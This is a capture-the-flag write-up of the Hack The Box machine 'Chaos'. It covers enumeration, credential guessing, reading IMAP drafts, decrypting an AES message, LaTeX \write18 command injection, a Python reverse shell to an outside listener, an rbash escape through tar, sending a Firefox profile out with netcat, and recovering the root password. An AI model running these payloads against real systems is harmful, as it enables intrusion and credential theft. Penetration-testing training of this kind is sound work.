



# HTB Chaos (10.10.10.120) MACHINE WRITE-UP

### TABLE OF CONTENTS

* [PART 1 : INITIAL RECON](#part-1--initial-recon)
* [PART 2 : PORT ENUMERATION](#part-2--port-enumeration)
  * [TCP PORT 80](#tcp-port-80)
  * [TCP PORT 995 (POP3)](#tcp-port-995-pop3)
  * [TCP PORT 993 (IMAP)](#tcp-port-993-imap)
* [PART 3 : EXPLOITATION](#part-3--exploitation)
* [PART 4 : GENERATE USER SHELL](#part-4--generate-user-shell)
* [PART 5 : PRIVILEGE ESCALATION (ayush -&gt; root)](#part-5--privilege-escalation-ayush---root)

---

## PART 1 : INITIAL RECON

```console
$ nmap --min-rate 1000 -p- -v 10.10.10.120

  PORT      STATE SERVICE
  80/tcp    open  http
  110/tcp   open  pop3
  143/tcp   open  imap
  993/tcp   open  imaps
  995/tcp   open  pop3s
  10000/tcp open  snet-sensor-mgmt

$ nmap -oN chaos.nmap -p80,110,143,993,995,10000 -sC -sV -v 10.10.10.120

  PORT      STATE SERVICE  VERSION
  80/tcp    open  http     Apache httpd 2.4.34 ((Ubuntu))
  | http-methods: 
  |_  Supported Methods: POST OPTIONS HEAD GET
  |_http-server-header: Apache/2.4.34 (Ubuntu)
  |_http-title: Site doesn't have a title (text/html).
  110/tcp   open  pop3     Dovecot pop3d
  |_pop3-capabilities: RESP-CODES AUTH-RESP-CODE CAPA PIPELINING STLS UIDL TOP SASL
  | ssl-cert: Subject: commonName=chaos
  | Subject Alternative Name: DNS:chaos
  | Issuer: commonName=chaos
  | Public Key type: rsa
  | Public Key bits: 2048
  | Signature Algorithm: sha256WithRSAEncryption
  | Not valid before: 2018-10-28T10:01:49
  | Not valid after:  2028-10-25T10:01:49
  | MD5:   af90 2165 92c7 740f d97a 786a 7e9f cb92
  |_SHA-1: 5a4d 4223 3b08 a24b 7d5a e509 09bf 9570 aa2c f6ba
  |_ssl-date: TLS randomness does not represent time
  143/tcp   open  imap     Dovecot imapd (Ubuntu)
  |_imap-capabilities: IMAP4rev1 STARTTLS LITERAL+ OK have SASL-IR post-login more LOGINDISABLEDA0001 capabilities IDLE listed Pre-login ENABLE ID LOGIN-REFERRALS
  | ssl-cert: Subject: commonName=chaos
  | Subject Alternative Name: DNS:chaos
  | Issuer: commonName=chaos
  | Public Key type: rsa
  | Public Key bits: 2048
  | Signature Algorithm: sha256WithRSAEncryption
  | Not valid before: 2018-10-28T10:01:49
  | Not valid after:  2028-10-25T10:01:49
  | MD5:   af90 2165 92c7 740f d97a 786a 7e9f cb92
  |_SHA-1: 5a4d 4223 3b08 a24b 7d5a e509 09bf 9570 aa2c f6ba
  |_ssl-date: TLS randomness does not represent time
  993/tcp   open  ssl/imap Dovecot imapd (Ubuntu)
  | ssl-cert: Subject: commonName=chaos
  | Subject Alternative Name: DNS:chaos
  | Issuer: commonName=chaos
  | Public Key type: rsa
  | Public Key bits: 2048
  | Signature Algorithm: sha256WithRSAEncryption
  | Not valid before: 2018-10-28T10:01:49
  | Not valid after:  2028-10-25T10:01:49
  | MD5:   af90 2165 92c7 740f d97a 786a 7e9f cb92
  |_SHA-1: 5a4d 4223 3b08 a24b 7d5a e509 09bf 9570 aa2c f6ba
  |_ssl-date: TLS randomness does not represent time
  995/tcp   open  ssl/pop3 Dovecot pop3d
  | ssl-cert: Subject: commonName=chaos
  | Subject Alternative Name: DNS:chaos
  | Issuer: commonName=chaos
  | Public Key type: rsa
  | Public Key bits: 2048
  | Signature Algorithm: sha256WithRSAEncryption
  | Not valid before: 2018-10-28T10:01:49
  | Not valid after:  2028-10-25T10:01:49
  | MD5:   af90 2165 92c7 740f d97a 786a 7e9f cb92
  |_SHA-1: 5a4d 4223 3b08 a24b 7d5a e509 09bf 9570 aa2c f6ba
  |_ssl-date: TLS randomness does not represent time
  10000/tcp open  http     MiniServ 1.890 (Webmin httpd)
  |_http-favicon: Unknown favicon MD5: EA9A0A98E2A16B0ADEA1F6ED448F4CEF
  | http-methods: 
  |_  Supported Methods: GET HEAD POST OPTIONS
  |_http-server-header: MiniServ/1.890
  |_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).

```
__NOTE(S)__:
- There is an IMAP (Internet Message Access Protocol) service running:
  - It ensures that e-mails are synced across multiple devices
  - IMAP uses __port 143__
  - SSL/TLS encrypted IMAP uses __port 993__
- There is a POP3 (Post Office Protocol version 3) service running:
  - It downloads e-mails and deletes them from the server
  - POP3 uses __port 110__
  - SSL/TLS encrypted POP3 uses __port 995__
 
---

## PART 2 : PORT ENUMERATION

### TCP PORT 80

- __`http://10.10.10.120`__:

  

  - `gobuster` on __`http://10.10.10.120`__:
    ```console
    $ gobuster -u http://10.10.10.120/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x php

      /wp (Status: 301)
      /javascript (Status: 301)

    ```
    - A __WordPress__ directory show up (`/wp`)
>
  - __`http://10.10.10.120/wp`__: 
    
    

    - WordPress Home ([/wp/wprdpress](http://10.10.10.120/wp/wordpress)):
      
      

      __NOTE(S)__:
      - There is a __Protected post__ titled __chaos__
>
    - Wordpress Post: chaos ([/wp/wordpress/index.php/2018/10/28/chaos/](http://10.10.10.120/wp/wordpress/index.php/2018/10/28/chaos/)): 
      
      

      __NOTE(S)__:
      - The post is written by the author, __human__
      - __ARBITRARY GUESS__: Maybe the password is __human__
>
    - View the post using the password, __human__:

      

      __NOTE(S)__:
      - The post contains credentials for a webmail service (`ayush:jiujitsu`)
      - This may be referring to the __IMAP__ or the __POP3__ service
>
- Try adding `chaos.htb` to `/etc/hosts`:
  ```
  127.0.0.1       localhost
  127.0.1.1       kali f
  10.10.10.120    chaos.htb

  # The following lines are desirable for IPv6 capable hosts
  ::1     localhost ip6-localhost ip6-loopback
  ff02::1 ip6-allnodes
  ff02::2 ip6-allrouters
  ```

- __`http://chaos.htb`__:

  

   - __`nikto`__:
     ```console
     $ nikto -host http://chaos.htb
     
       ...omitted...
       + Server: Apache/2.4.34 (Ubuntu)
       ...omitted...

     ```

     __NOTE(S)__:
     - The service now loads.
     - The site only contains static __html__ pages
     - The server running is `Apache`
     - There might be hidden __php__ files
>
   - __`gobuster`__ on __`http://chaos.htb/`__:
     ```console
     $ gobuster -u http://chaos.htb -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x php
   
       /img (Status: 301)
       /css (Status: 301)
       /source (Status: 301)
       /js (Status: 301)
       /javascript (Status: 301)

     ```
     __NOTE(S)__:
     - Nothing interesting seems to pop up
     - What if `gobuster` was ran directly on http://10.10.10.120 ?

### TCP PORT 995 (POP3)

- __`openssl`__:
  ```console
  $ openssl s_client -connect 10.10.10.120:995

    +OK Dovecot (Ubuntu) ready.
   
  $ user ayush
 
    +OK

  $ pass jiujitsu

    +OK Logged in.
     
  $ list

    +OK 0 messages:
    .
  ```
  __NOTE(S)__:
  - There are currently no messages present in the service
  - The service might be a __RABBIT HOLE__

### TCP PORT 993 (IMAP)

- __`openssl`__:
  ```console
  $ openssl s_client -connect 10.10.10.120:993

    * OK [CAPABILITY IMAP4rev1 SASL-IR LOGIN-REFERRALS ID ENABLE IDLE LITERAL+ AUTH=PLAIN] Dovecot (Ubuntu) ready.
   
  $ a login ayush jiujitsu

    a OK [CAPABILITY IMAP4rev1 SASL-IR LOGIN-REFERRALS ID ENABLE IDLE SORT SORT=DISPLAY THREAD=REFERENCES THREAD=REFS THREAD=ORDEREDSUBJECT MULTIAPPEND URL-PARTIAL CATENATE UNSELECT CHILDREN NAMESPACE UIDPLUS LIST-EXTENDED I18NLEVEL=1 CONDSTORE QRESYNC ESEARCH ESORT SEARCHRES WITHIN CONTEXT=SEARCH LIST-STATUS BINARY MOVE SNIPPET=FUZZY LITERAL+ NOTIFY SPECIAL-USE] Logged in

  $ b list "" *

    * LIST (\NoInferiors \UnMarked \Drafts) "/" Drafts
    * LIST (\NoInferiors \UnMarked \Sent) "/" Sent
    * LIST (\HasNoChildren) "/" INBOX
    b OK List completed (0.001 + 0.000 secs).
    
  $ 1 SELECT Drafts

    * FLAGS (\Answered \Flagged \Deleted \Seen \Draft)
    * OK [PERMANENTFLAGS (\Answered \Flagged \Deleted \Seen \Draft \*)] Flags permitted.
    * 1 EXISTS
    * 0 RECENT
    * OK [UIDVALIDITY 1540728611] UIDs valid
    * OK [UIDNEXT 5] Predicted next UID
    1 OK [READ-WRITE] Select completed (0.001 + 0.000 secs).
     
  $ 2 FETCH 1:* (FLAGS INTERNALDATE BODY.PEEK[HEADER.FIELDS (SUBJECT)])

    * 1 FETCH (FLAGS (\Seen) INTERNALDATE "28-Oct-2018 12:16:38 +0000" BODY[HEADER.FIELDS (SUBJECT)]{20}
    Subject: service
     
    )
    2 OK Fetch completed (0.001 + 0.000 secs).

  $ 3 FETCH 1 BODY[TEXT]

    * 1 FETCH (BODY[TEXT] {2183}
     
  ```
     - MESSAGE #1:
       ```
       Content-Transfer-Encoding: 7bit
       Content-Type: text/plain; charset=US-ASCII;
       format=flowed

       Hii, sahay
       Check the enmsg.txt
       You are the password XD.
       Also attached the script which i used to encrypt.
       Thanks,
       Ayush

       ```
     - ATTACHMENT #1:
       ```
       Content-Transfer-Encoding: base64
       Content-Type: application/octet-stream;
       name=enim_msg.txt
       Content-Disposition: attachment;
       filename=enim_msg.txt;
       size=272

       MDAwMDAwMDAwMDAwMDIzNK7uqnoZitizcEs4hVpDg8z18LmJXjnkr2tXhw/AldQmd/g53L6pgva9
       RdPkJ3GSW57onvseOe5ai95/M4APq+3mLp4GQ5YTuRTaGsHtrMs7rNgzwfiVor7zNryPn1Jgbn8M
       7Y2mM6I+lH0zQb6Xt/JkhOZGWQzH4llEbyHvvlIjfu+MW5XrOI6QAeXGYTTinYSutsOhPilLnk1e
       6Hq7AUnTxcMsqqLdqEL5+/px3ZVZccuPUvuSmXHGE023358ud9XKokbNQG3LOQuRFkpE/LS10yge
       +l6ON4g1fpYizywI3+h9l5Iwpj/UVb0BcVgojtlyz5gIv12tAHf7kpZ6R08=
       ```
     - ATTACHMENT #2:
       ```
       Content-Transfer-Encoding: base64
       Content-Type: text/x-python; charset=us-ascii;
       name=en.py
       Content-Disposition: attachment;
       filename=en.py;
       size=804

       ZGVmIGVuY3J5cHQoa2V5LCBmaWxlbmFtZSk6CiAgICBjaHVua3NpemUgPSA2NCoxMDI0CiAgICBv
       dXRwdXRGaWxlID0gImVuIiArIGZpbGVuYW1lCiAgICBmaWxlc2l6ZSA9IHN0cihvcy5wYXRoLmdl
       dHNpemUoZmlsZW5hbWUpKS56ZmlsbCgxNikKICAgIElWID1SYW5kb20ubmV3KCkucmVhZCgxNikK
       CiAgICBlbmNyeXB0b3IgPSBBRVMubmV3KGtleSwgQUVTLk1PREVfQ0JDLCBJVikKCiAgICB3aXRo
       IG9wZW4oZmlsZW5hbWUsICdyYicpIGFzIGluZmlsZToKICAgICAgICB3aXRoIG9wZW4ob3V0cHV0
       RmlsZSwgJ3diJykgYXMgb3V0ZmlsZToKICAgICAgICAgICAgb3V0ZmlsZS53cml0ZShmaWxlc2l6
       ZS5lbmNvZGUoJ3V0Zi04JykpCiAgICAgICAgICAgIG91dGZpbGUud3JpdGUoSVYpCgogICAgICAg
       ICAgICB3aGlsZSBUcnVlOgogICAgICAgICAgICAgICAgY2h1bmsgPSBpbmZpbGUucmVhZChjaHVu
       a3NpemUpCgogICAgICAgICAgICAgICAgaWYgbGVuKGNodW5rKSA9PSAwOgogICAgICAgICAgICAg
       ICAgICAgIGJyZWFrCiAgICAgICAgICAgICAgICBlbGlmIGxlbihjaHVuaykgJSAxNiAhPSAwOgog
       ICAgICAgICAgICAgICAgICAgIGNodW5rICs9IGInICcgKiAoMTYgLSAobGVuKGNodW5rKSAlIDE2
       KSkKCiAgICAgICAgICAgICAgICBvdXRmaWxlLndyaXRlKGVuY3J5cHRvci5lbmNyeXB0KGNodW5r
       KSkKCmRlZiBnZXRLZXkocGFzc3dvcmQpOgogICAgICAgICAgICBoYXNoZXIgPSBTSEEyNTYubmV3
       KHBhc3N3b3JkLmVuY29kZSgndXRmLTgnKSkKICAgICAgICAgICAgcmV0dXJuIGhhc2hlci5kaWdl
       c3QoKQoK
       ```

   __NOTE(S)__:
   - There are three message drafts in the service:
     - __MESSAGE #1__ says that there is an encrypted message and the password is `sahay`
     - __MESSAGE #1__ also says that the script used to encrypt the message is included
     - __ATTACHMENT #1__ is the base64 encoded encrypted message (`enim_msg.txt`)
     - __ATTACHMENT #2__ is the base64 encoded script used for encryption (`en.py`)

---

## PART 3 : EXPLOITATION

- Examine the encryption script:
  ```py
  def encrypt(key, filename):
     chunksize = 64*1024
     outputFile = "en" + filename
     filesize = str(os.path.getsize(filename)).zfill(16)
     IV =Random.new().read(16)

     encryptor = AES.new(key, AES.MODE_CBC, IV)

     with open(filename, 'rb') as infile:
        with open(outputFile, 'wb') as outfile:
           outfile.write(filesize.encode('utf-8'))
           outfile.write(IV)

           while True:
              chunk = infile.read(chunksize)

              if len(chunk) == 0:
                 break
              elif len(chunk) % 16 != 0:
                 chunk += b' ' * (16 - (len(chunk) % 16))

              outfile.write(encryptor.encrypt(chunk))

  def getKey(password):
     hasher = SHA256.new(password.encode('utf-8'))
     return hasher.digest()
  ```
  __NOTE(S)__:
  - The output file has three parts -- `filesize`, `IV`, `encryptor.encrypt(chunk)`
  - The `filesize` which is 16 characters long:
    - The `zfill(n)` function fills the string with leading zeroes until the string is length __n__
  - The `IV` (Initialization Vector) which is 16 characters long
    - `Random.new().read(16)` returns 16 random characters
  - Then the encrypted message
>
- Create a decryptor script (`decryptor.py`):
  ```py
  from Crypto.Cipher import AES
  from Crypto.Hash import SHA256
  import sys

  def decrypt(password, filename):
     in_file = open(filename, 'rb')
     encrypted_message = in_file.read()
     in_file.close()

     key = SHA256.new(password.encode('utf-8')).digest()
     iv = encrypted_message[16:32]
     cipher = AES.new(key, AES.MODE_CBC, iv)

     return cipher.decrypt(encrypted_message[32:]).decode('utf-8')
                        
  print(decrypt(sys.argv[2], sys.argv[1]))
  ```
  __NOTE(S)__:
  - `sys.argv[1]` is the file that contains the encrypted message
  - `sys.argv[2]` is the password
  - The `IV` string is in index `[16:32]`
>   
- Run `decryptor.py`:
  ```console
  $ echo MDAwMDAwMDAwMDAwMDIzNK7uqnoZitizcEs4hVpDg8z18LmJXjnkr2tXhw/AldQmd/g53L6pgva9RdPkJ3GSW57onvseOe5ai95/M4APq+3mLp4GQ5YTuRTaGsHtrMs7rNgzwfiVor7zNryPn1Jgbn8M7Y2mM6I+lH0zQb6Xt/JkhOZGWQzH4llEbyHvvlIjfu+MW5XrOI6QAeXGYTTinYSutsOhPilLnk1e6Hq7AUnTxcMsqqLdqEL5+/px3ZVZccuPUvuSmXHGE023358ud9XKokbNQG3LOQuRFkpE/LS10yge+l6ON4g1fpYizywI3+h9l5Iwpj/UVb0BcVgojtlyz5gIv12tAHf7kpZ6R08= | base64 --decode > enim_msg.txt

  $ python decryptor.py enim_msg.txt sahay

    SGlpIFNhaGF5CgpQbGVhc2UgY2hlY2sgb3VyIG5ldyBzZXJ2aWNlIHdoaWNoIGNyZWF0ZSBwZGYKCnAucyAtIEFzIHlvdSB0b2xkIG1lIHRvIGVuY3J5cHQgaW1wb3J0YW50IG1zZywgaSBkaWQgOikKCmh0dHA6Ly9jaGFvcy5odGIvSjAwX3cxbGxfZjFOZF9uMDdIMW45X0gzcjMKClRoYW5rcywKQXl1c2gK
  ```
  __NOTE(S)__:
  - According to __Ayush__, `sahay` is the password
  - A base64 encoded message is output
> 
- Decode the message:
  ```console
  $ echo SGlpIFNhaGF5CgpQbGVhc2UgY2hlY2sgb3VyIG5ldyBzZXJ2aWNlIHdoaWNoIGNyZWF0ZSBwZGYKCnAucyAtIEFzIHlvdSB0b2xkIG1lIHRvIGVuY3J5cHQgaW1wb3J0YW50IG1zZywgaSBkaWQgOikKCmh0dHA6Ly9jaGFvcy5odGIvSjAwX3cxbGxfZjFOZF9uMDdIMW45X0gzcjMKClRoYW5rcywKQXl1c2gK | base64 -d

    Hii Sahay

    Please check our new service which create pdf

    p.s - As you told me to encrypt important msg, i did :)

    http://chaos.htb/J00_w1ll_f1Nd_n07H1n9_H3r3

    Thanks,
    Ayush
  ```
  __NOTE(S)__:
  - A link to a webpage is in the message

---

## PART 4 : Generate User Shell

1. Visit http://chaos.htb/J00_w1ll_f1Nd_n07H1n9_H3r3:
   - Landing Page:
     
     

   __NOTE(S)__:
   - Pressing `Create PDF` creates a __POST__ request to `/ajax.php`
>
2. Check server response when creating a PDF
   ```console
   $ curl -d "content=test&template=test1" http://chaos.htb/J00_w1ll_f1Nd_n07H1n9_H3r3/ajax.php

     LOG:
     This is pdfTeX, Version 3.14159265-2.6-1.40.19 (TeX Live 2019/dev/Debian) (preloaded format=pdflatex)
      \write18 enabled.
     entering extended mode

   ```
   __NOTE(S)__:
   - `\write18 enabled` is written in the response.
     - `\write` is used to write to a stream
     - Stream `18` is referenced to the shell (or terminal)
   - When used with `\immediate`, `\write18` immediately executes instead of after the page has been served
>
3. Attempt RCE (Remote Code Execution):
   ```console
   $ curl -d "content=\immediate\write18{id}&template=test1" http://chaos.htb/J00_w1ll_f1Nd_n07H1n9_H3r3/ajax.php

     LOG:
     This is pdfTeX, Version 3.14159265-2.6-1.40.19 (TeX Live 2019/dev/Debian) (preloaded format=pdflatex)
      \write18 enabled.
     entering extended mode
     ...omitted...
     ...uid=33(www-data) gid=33(www-data) groups=33(www-data)
     ...omitted...
     ```
   __NOTE(S)__:
   - `\immediate\write18{id}` executed
>
4. Set-up Reverse Shell:
   - Local Terminal #1:
     ```console
     $ nc -lvp 4444
     ```
   - Local Terminal #2:
     ```sh
     $ cmd="python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.10.12.70\",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);'"

     $ curl -d "content=\immediate\write18{$cmd}&template=test1" http://chaos.htb/J00_w1ll_f1Nd_n07H1n9_H3r3/ajax.php
     ```
   - `netcat` listener:
     ```console
     python -c 'import pty; pty.spawn("/bin/bash")'

     cat /etc/passwd | grep bash
     # root:x:0:0:root:/root:/bin/bash
     # sahay:x:1000:1000:choas:/home/sahay:/bin/bash
     # ayush:x:1001:1001:,,,:/home/ayush:/opt/rbash
     ```
     
   __NOTE(S)__:
   - The user, `ayush`, has a __restricted shell__ (`/opt/rbash`)
     ```console
     $ su ayush

       Password: jiujitsu
     
     $ id

       rbash: /usr/lib/command-not-found: restricted: cannot specify `/' in command names

     ```
     - `ayush` __reuses__ passwords
>
5. Escape the `rbash`:
   1. Look for usable commands:
      ```console
      $ cd ~

        rbash: cd: restricted

      $ ls -lah

        rbash: /usr/lib/command-not-found: restricted: cannot specify `/' in command names

      $ echo test
      
        test

      ```
   2. Leverage `echo`:
      ```console
      $ echo ~/*

        /home/ayush/mail 
        /home/ayush/user.txt

      $ echo $PATH

        /home/ayush/.app

      $ echo /home/ayush/.app/*

        /home/ayush/.app/dir 
        /home/ayush/.app/ping 
        /home/ayush/.app/tar

      ```
      __NOTE(S)__:
      - `ayush` is able to use `tar`
>
   3. Leverage `tar`:
      ```console
      $ tar -cf /dev/null /home/ayush/mail --checkpoint=1 --checkpoint-action=exec=/bin/sh

      $ export PATH=/bin:/usr/bin:$PATH
      ```
6. Spawn a __tty shell__:
   ```console
   $ python -c 'import pty; pty.spawn("/bin/bash")'
   > Ctrl + z
   $ stty raw -echo
   $ fg
   $ export SHELL=bash
   $ export TERM=xterm-256color
   ```
7. Find `user.txt`:
   ```console
   $ cat /home/ayush/user.txt
    
     eef39126d9c3b4b8a30286970dc713e1

   ```

---

## PART 5 : PRIVILEGE ESCALATION (ayush -> root)

1. While inside `ayush` shell:
   ```console
   $ ls -lah ~

     total 40K
     drwx------ 6 ayush ayush 4.0K May 26 09:24 .
     drwxr-xr-x 4 root  root  4.0K Oct 28  2018 ..
     drwxr-xr-x 2 root  root  4.0K Oct 28  2018 .app
     -rw------- 1 root  root     0 Nov 24 23:57 .bash_history
     -rw-r--r-- 1 ayush ayush  220 Oct 28  2018 .bash_logout
     -rwxr-xr-x 1 root  root    22 Oct 28  2018 .bashrc
     drwx------ 3 ayush ayush 4.0K May 26 09:24 .gnupg
     drwx------ 3 ayush ayush 4.0K May 26 09:57 mail
     drwx------ 4 ayush ayush 4.0K Sep 29  2018 .mozilla
     -rw-r--r-- 1 ayush ayush  807 Oct 28  2018 .profile
    -rw------- 1 ayush ayush   33 Oct 28  2018 user.txt

   $ cd .mozilla/firefoz

   $ ls -lah

     total 20K
     drwx------  4 ayush ayush 4.0K Sep 29  2018  .
     drwx------  4 ayush ayush 4.0K Sep 29  2018  ..
     drwx------ 10 ayush ayush 4.0K Oct 27  2018  bzo7sjt1.default
     drwx------  4 ayush ayush 4.0K Oct 15  2018 'Crash Reports'
     -rw-r--r--  1 ayush ayush  104 Sep 29  2018  profiles.ini

   $ cat profiles.ini

     [General]
     StartWithLastProfile=1
     
     [Profile0]
     Name=default
     IsRelative=1
     Path=bzo7sjt1.default
     Default=1

   ```
   __NOTE(S)__:
   - `profiles.ini` contains firefox profile
     - The `Path` is the directory containing relevant files to the profiles
     - Profiles may contain __saved logins__ by the user
>
2. Export `bzo7sjt1.default`:
   - Local terminal:
     ```console
     $ nc -lvp 1234 > profile.tar
     ```
   - `ayush` terminal:
     ```console
     $ tar -cf /tmp/something ~/.mozilla/firefox/bzo7sjt1.default

     $ cat /tmp/something | nc 10.10.12.70 1234
     ```

3. Extract `profile.tar` and start a firefox isntance
   ```console
   $ mkdir bzo7sjt1.default
   $ cd bzo7sjt1.default
   $ tar -xvf ../profile.tar
   $ firefox --profile ./
   ```

4. Find __saved logins__:
   1. Go to `Options`
   2. Go to `Privacy & Security`
   3. Look for `Saved Logins...`
   4. Enter the __master password__ ("`jiujitsu`")
   5. Click `Show Passwords`
   6. Enter the __master password__ ("`jiujitsu`") again

   

   __NOTE(S)__:
   - The user, `ayush`, kept reusing the password `jiujitsu`
   - Credentials for a user, `root`, is in the `Saved Logins...`
     - Credential pair -- `root:Thiv8wrej~`
     - Maybe `root` is also reusing credentials
>
5. While inside `ayush` shell:
   ```console
   $ su root
   $ Password: Thiv8wrej~

   # id

     uid=0(root) gid=0(root) groups=0(root)

   # cat /root/root.txt

     4eca7e09e3520e020884563cfbabbc70

   ```
